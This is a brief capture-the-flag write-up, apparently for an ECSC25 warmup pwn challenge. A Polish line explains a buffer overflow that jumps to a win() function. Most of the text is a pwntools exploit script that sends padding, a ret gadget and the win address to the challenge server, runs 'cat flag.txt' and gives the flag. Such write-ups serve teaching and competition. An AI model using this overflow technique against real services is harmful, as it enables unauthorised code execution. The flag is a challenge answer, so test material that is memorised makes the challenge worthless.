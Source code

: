 # Warmup: Pwn - warmup - pwn

### Solution

Buffer Overflow w którym trzeba skoczyć do `win()`

```python
from pwn import remote, p64

r = remote("warmup.ecsc25.hack.cert.pl", 5210)

win_addr = 0x0000000000401176
ret_addr = 0x00000000004010ef

r.sendline(b"A" * 16 + b"B" * 8 + p64(ret_addr) + p64(win_addr))
r.sendline(b"cat flag.txt")
r.interactive() # ecsc25{pwn3d}
```
